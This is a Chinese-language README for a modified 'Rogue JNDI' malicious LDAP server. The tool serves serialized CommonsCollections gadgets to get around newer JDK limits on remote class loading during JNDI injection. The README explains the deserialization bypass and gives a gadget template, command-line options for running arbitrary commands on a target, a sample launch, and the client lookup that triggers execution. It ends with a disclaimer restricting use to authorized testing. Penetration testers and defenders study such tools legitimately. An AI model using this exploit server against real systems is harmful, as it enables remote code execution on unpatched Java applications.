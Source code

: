 ## Rogue JNDI 1.2

### Description

原工具库：[veracode-research/rogue-jndi: A malicious LDAP server for JNDI injection attacks (github.com)](https://github.com/veracode-research/rogue-jndi)

增加自定义gadget触发客户端代码执行 绕过高版本JDK远程加载限制

### Bypass 

利用LDAP返回序列化数据，触发本地Gadget，LDAP支持直接返回一个对象的序列化数据。如果Java对象的 javaSerializedData 属性值不为空，则客户端的 obj.decodeObject() 方法就会对这个字段的内容进行反序列化。

`com.sun.jndi.ldap.Obj#decodeObject`

```JAVA
if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
    ClassLoader var3 = helper.getURLClassLoader(var2);
    return deserializeObject((byte[])((byte[])var1.get()), var3);
}
```

更多绕过方式请参考：https://paper.seebug.org/942

### Supported payloads

目前利用LDAP返回序列化数据，触发本地Gadget的绕过方式支持的Gadget

* CommonsCollections2
* CommonsCollections4
* CommonsCollections5
* CommonsCollections6
* CommonsCollections7
* ...

可自定义添加，在`gadgets`包中，添加模板如下

```java
@SuppressWarnings({ "rawtypes", "unchecked" })
public class GadgetName implements ObjectPayload<T>{

    @Override
    public T getObject(String command) throws Exception {
   
        return T;
    }
}
```

其他`payload`请参考原工具库

### Usage

```
> java -jar RogueJndi-1.2.jar -h
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Usage: java -jar target/RogueJndi-1.2.jar [options]
  Options:
    -c, --command  Command to execute on the target server (default: calc.exe)
    -n, --hostname Local HTTP server hostname (required for remote 
                   classloading and websphere payloads) (default: 10.75.3.9)
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8000)
    --wsdl         [websphere1 payload option] WSDL file with XXE payload 
                   (default: /list.wsdl)
    --localjar     [websphere2 payload option] Local jar file to load (this 
                   file should be located on the remote server) (default: 
                   ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    -g, --gadget   Use the client gadget to bypass the high-version JDK , 
                   choose the gadget to use (default: CommonsCollections6)
    -h, --help     Show this help
```

### Example

绕过高版本JDK限制：利用LDAP返回序列化数据，触发本地Gadget，如下Gadget的是`CommonsCollections6`

```
>java -jar RogueJndi-1.2.jar  -c "calc.exe" -n "127.0.0.1" -g "CommonsCollections6"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://127.0.0.1:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://127.0.0.1:1389/o=ldapref to artsploit.controllers.LDAPRefServer
Mapping ldap://127.0.0.1:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://127.0.0.1:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://127.0.0.1:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://127.0.0.1:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://127.0.0.1:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://127.0.0.1:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://127.0.0.1:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
```

客户端触发代码：

```
new InitialContext().lookup("ldap://127.0.0.1:1389/o=ldapref");
```

### Building

Java v1.7+ and Maven v3+ required

```
mvn package 
```

### Disclamer

 此工具仅用于企业安全人员自查验证自身企业资产的安全风险，或有合法授权的安全测试，请勿用于其他用途，如有，后果自负。